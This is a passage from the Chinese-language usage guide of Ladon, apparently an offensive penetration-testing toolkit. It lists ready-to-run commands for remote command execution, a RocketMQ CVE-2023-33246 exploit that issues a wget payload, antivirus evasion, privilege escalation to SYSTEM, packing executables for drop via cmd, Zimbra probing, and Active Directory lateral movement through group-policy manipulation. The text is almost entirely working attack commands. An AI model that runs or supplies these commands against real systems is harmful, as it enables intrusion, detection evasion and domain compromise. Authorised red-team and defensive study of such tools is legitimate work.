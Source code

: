 ##### 231 RunCmd/Cmd  执行Cmd命令/支持b64cmd
```Bash	
Ladon cmd whoami
Ladon b64cmd d2hvYW1p 
```

##### 232 查看管理员IP、一键读取登陆成功日志4624
```Bash	
Ladon LoginLog
Ladon EventLog 
```

##### 233 Apache RocketMQ CVE-2023-33246 远程命令执行漏洞EXP
```Bash	
Ladon RocketMQexp <ip> 10911 <command>
Ladon RocketMQexp 192.168.1.8 10911 "wget http://192.168.1.8/isvul"
```

##### 234 Ladon一键免杀工具
```Bash	
Ladon BypassAV py xor anyNet.exe
```

##### 235 Win11/2022系统提权至system权限
```Bash	
Ladon McpPotato whoami
```

##### 236 EXE转HEX，CMD命令写入文件
```Bash	
Ladon Exe2Hex 1.exe
```

##### 237 EXE转Base64，CMD命令写入文件
```Bash	
Ladon Exe2B64 1.exe
```

##### 238 ZimbraVer	Zimbra邮件系统版本探测
```Bash	
Ladon 192.168.1.8/24 ZimbraVer
Ladon http://192.168.1.8:8080 ZimbraVer
Ladon url.txt ZimbraVer
```

##### 239 SharpGPO域渗透 组策略横向移动工具
```Bash	
Ladon SharpGPO

Ladon SharpGPO --Action GetOU
Ladon SharpGPO --Action GetOU --OUName "IT Support"

Ladon SharpGPO --Action NewOU --OUName "IT Support"
Ladon SharpGPO --Action NewOU --OUName "App Dev" --BaseDN "OU=IT Support,DC=testad,DC=com"

Ladon SharpGPO --Action MoveObject --SrcDN "CN=user01,CN=Users,DC=testad,DC=com" --DstDN "OU=IT Support,DC=testad,DC=com"
Ladon SharpGPO --Action MoveObject --SrcDN "CN=user01,OU=IT Support,DC=testad,DC=com" --DstDN "CN=Users,DC=testad,DC=com"

Ladon SharpGPO --Action RemoveOU --OUName "IT Support"
Ladon SharpGPO --Action RemoveOU --DN "OU=IT Support,DC=testad,DC=com"


Ladon SharpGPO --Action GetGPO
Ladon SharpGPO --Action GetGPO --GPOName testgpo

Ladon SharpGPO --Action NewGPO --GPOName testgpo
```
